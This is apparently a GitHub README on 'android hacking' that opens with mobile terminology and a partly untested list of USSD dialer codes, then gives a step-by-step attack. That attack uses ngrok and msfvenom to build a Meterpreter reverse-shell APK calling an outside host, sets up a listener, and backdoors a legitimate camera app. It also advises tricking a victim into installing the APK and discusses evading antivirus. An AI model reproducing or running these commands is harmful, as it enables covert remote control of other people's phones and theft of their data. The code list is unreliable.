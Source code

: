 # android-hacking



# ANDROID TECHNOLOGY

## TERMINOLOGY

- USSD
```bash
# Unstructured Supplementary Service Data)
- Used by GSM,smartphones... Used to communicate with mobile operator network
- Hep to access some phone features
```

- MMI code
```bash
# Man-Machine Interface code,
- A string of numbers or letters that instructs your device to carry out certain tasks
```

- GSM 
```bash
# Global System for Mobile Communications)
```

- IMEI
```bash
# International Mobile Equipment Identity
```

# USSD codes

- [USSD codes](https://www.maketecheasier.com/android-ussd-secret-security-codes/)
- `*#06#` Used to Get IMEI number of your device 
- `*#07#` Check SAR level # Specific absorption rate (`1.6W/kg`)
- `*#*#225#*#*` Display calenda storage data
- `*#*#4636#*#*` View Smartphone Battery, WLAN, and Other Inf
- `*31#` Turn Off Caller ID-- Enable/disable outgoing caller ID
- `*43#` Enable call waiting service. `#43#` To disable
-  `*#67#` Check Call Forwarding
-  `*57` Activate call tracing service

# Below codes not yet tested
- `*#*#1472365#*#*` GPS System check (strength and efficiency)
- `*#*#2664#*#*` Touch screen Test
- `#*#232339#*#*` Test Wi-Fi
- `*#*#197328640#*#*` Enable service mode
- `*#*#4986*2650468#*#*` View firmware Information
- ` *#*#34971539#*#*` View Camera Information
-  `*#3282*727336*#` Check Storage and System Details



## Using malicios APK file

1. Getting public ip with ngrok
          
           ./ngrok tcp 1234
           
2. Generating with msfvenom  
         
          msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=12126 R > malicious.apk
3. Using msfconsole to listen to the connection from our payload
    
       use exploit/multi/handler
       set payload android/meterpreter/reverse_tcp
   
   Then
   
      `Now we need to send the apk to the victim and getting them to install and launch`
      
 #### Disadvantages of this method
  1. Requires either access to the victim’s phone or social engineering to get the victim to install and launch the malicious apk.
  2. The generated apk file does not look legitimate. It’s only a few KBs and doesn’t do anything when clicked on. The victim might either uninstall it right away or not install it at all.
  3. Might require a lot of time and effort to make the apk file look realistic i.e. changing the logo, adding some functionality.
  4. Such an apk file is easily classified as dangerous by any anti-virus installed on the victim’s phone.
  5. Numerous warnings from the mobile device and Google Play Store that installing apps from unknown sources is dangerous. This might deter the victim from proceeding.
  6. The connection we get back is not persistent. Once the phone reboots, loses internet connection, or the user clears all the running apps in the background, we lose our connection and the only way to get it back again is if the user clicks on the app icon again.
  
  ## Injecting a Malicious Payload on a Legitimate Android App
  
   * you can download legitimate apk files. Kindly note that not all apk files can easily be exploited in this way. Some of them have protections in place
    Then 
    
        msfvenom -x CameraSample.apk -p android/meterpreter/reverse_tcp LHOST=2.tcp.ngrok.io LPORT=12492 -o CameraSample_backdoored.apk
    
